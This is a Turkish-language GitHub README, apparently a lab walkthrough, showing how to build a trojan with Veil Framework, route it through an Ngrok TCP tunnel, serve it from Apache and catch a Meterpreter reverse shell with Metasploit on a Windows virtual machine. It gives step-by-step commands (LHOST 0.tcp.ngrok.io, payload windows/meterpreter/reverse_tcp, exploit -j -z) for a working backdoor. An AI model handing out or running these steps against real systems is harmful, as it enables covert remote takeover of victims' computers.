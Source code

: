 # Veil-Ngrok-Calistirma
Veil Framework ile Ngrok Çalıştırarak Trojen Oluşturup Çalıştırmak


Veil Framework Yükleme Referansı: https://github.com/Veil-Framework/Veil


- [Ngrok.com](https://ngrok.com/) adresine giderek üye oldum.
- Site üzerinden “Download for Linux” diyerek sanal Kali makinama ngrok’u indirdim
- 2. Kısımda yazan authentication token’ımı kayderek siteden çıkış yapıyorum.
 ![ngrok site](https://user-images.githubusercontent.com/67163428/191236942-63485be5-51da-4a83-bdb2-b8a87b25e0c2.png)


- Download klasörü içinde indirdiğim Zip dosyası içinden Ngrok’u çıkardım
 ![ngrok zip çıkarılış](https://user-images.githubusercontent.com/67163428/191237212-ef13070b-bab6-49c3-ac54-4f09fbcaee61.png)


- Terminal ekranını açarak Download klasörünün içine gidiyorum, ls diyerek dosyaları kontrol ediyorum ve “ngrok” dosyasını görüyorum.
- Kaydetmiş olduğum authentication tokenı ./ngrok yaparak yapıştırıp tokenın dosyaya yazılmasını sağlıyorum.
 ![ngrok token kaydetme](https://user-images.githubusercontent.com/67163428/191237348-f267496a-8a87-4d60-933c-bf556e30e2f4.png)


- ./ngrok tcp 4848 servisini çalıştırıp kullanılmayan bir port ekliyorum.
 ![ngrok çalıştırma](https://user-images.githubusercontent.com/67163428/191237409-7ee692ce-69ab-41a0-ad84-5e4545198730.png)


- Ngrok çalışmaya başladıktan sonra gelen ekran üzerinde tcp://0.tcp.eu.ngrok.io’a ya 11810 portundan gelen verileri benim makinamın 4848 portuna aktaracağını anlıyoruz.
 ![ngrok çalışması ](https://user-images.githubusercontent.com/67163428/191237456-aae6c597-4ee8-4485-b5ee-0a6034f5b3f5.png)


- Trojen yaratmak için Veil kullanıyorum.
- Veil dosyasının kurulu olduğu yere giderek, Veil.py dosyasını çalıştırmak için “python3 Veil.py” yazıyorum.
 ![veil çalıştırma](https://user-images.githubusercontent.com/67163428/191237534-4918ef2e-2da1-4b1e-9fa7-7146eb6a5094.png)


- Çıkan ekranda 2 araç kullanılabilir olduğunu görüyorum ve 1. Aracı kullanıyorum
 ![veil iç 1](https://user-images.githubusercontent.com/67163428/191237598-cb81a1b3-0737-4200-8a10-40b79f3faec8.png)


- “list” diyerek payload listelerini görüyorum.
 ![veil iç 2](https://user-images.githubusercontent.com/67163428/191237642-27d90eda-9e55-4c8c-97bc-3dd5bb2aaf65.png)
 ![veil iç 3](https://user-images.githubusercontent.com/67163428/191237676-251896cd-351d-45bd-ae81-c30235050540.png)


- “use 7” diyerek 7. payloadı seçerek devam ediyorum.
 ![veil iç 4](https://user-images.githubusercontent.com/67163428/191237688-1102d3b4-fceb-4026-9007-84defebcbfba.png)


-“set LHOST 0.tcp.ngrok.io” yazıyorum. Ngrok üzerinden bize verilen adresi girdim.
- Port olarakta “set LPORT 11810” giriyorum
 ![veil iç 5](https://user-images.githubusercontent.com/67163428/191237931-9790d9fe-b387-4bc5-b377-15838e8aee39.png)


-“generate” diyerek benim için oluşturmasını istiyorum daha sonra bir isim vererek dosyanın nerede oluştuğunu görebiliyorum.
 ![veil iç 6](https://user-images.githubusercontent.com/67163428/191237959-0fad0315-d39f-418e-a973-37d49feee0ff.png)


- “/var/lib/veil/output/compiled/veilbackdoor.exe” içerisinde olan dosyamı keserek 
 /var/www/html/backdoors/” klasörünün içine aktarıyorum. (backdoors klasörünü isteğe bağlı oluşturabilirsiniz)


--------------


- Apache servisimi çalıştırıyorum.
- Dinlemeyi yapmak için msfconsole içine giriyorum.
 ![apache ve msfconsole çalıştırma](https://user-images.githubusercontent.com/67163428/191238053-41d8cdc6-b95a-43cb-b25f-8a5b5a4621c4.png)


- “ use exploit/multi/handler” 
“ set payload windows/meterpreter/reverse_tcp” komutlarını giriyorum
 ![msfconsole iç 1](https://user-images.githubusercontent.com/67163428/191238141-a1f4c3d7-8a82-4bfc-af9c-4a6327dd1986.png)


- “show opitons” içine girerek LHOST VE LPORTA BAKIYORUM.
“set LHOST 0.0.0.0” VE “set LPORT 4848” yazarak düzenleme yapıyorum.
- “exploit -j -z” diyerek dinlemeyi başlatmış oluyorum.
 ![msfconsole iç 2](https://user-images.githubusercontent.com/67163428/191238171-8f9fe884-0a44-4b34-8abb-5c1f11d337e0.png)


--------------


- Oluşturduğum sanal windows makinasını çalıştırıyorum.
- Tarayıcıyı açarak “10.0.2.15/backdors” adresine giderek veilbackdoor.exe dosyasını indiriyorum.
 ![windows indirme](https://user-images.githubusercontent.com/67163428/191238393-81524185-c4fd-44db-bd01-b06b3d3ab8ca.png)


- exe dosyasını açtıktan sonra kali makinamızın terminaline bir sessions düşüyor.
 ![msfconsole 3](https://user-images.githubusercontent.com/67163428/191238361-c3a3f034-6061-45d7-af9d-f2c47448c033.png)


- “sessions -l” yaparak tüm sessionsları görüyoruz ve bize gerekli olan “sessions -1” diyerek windows makinamızın içine giriyoruz. 
- “sysinfo” yapara makinamızın ele geçirildiğini kanıtlamış oluyoruz.
 ![msfconsole 4](https://user-images.githubusercontent.com/67163428/191238381-4063fce5-c328-4225-99d7-e330c2c7c02b.png)



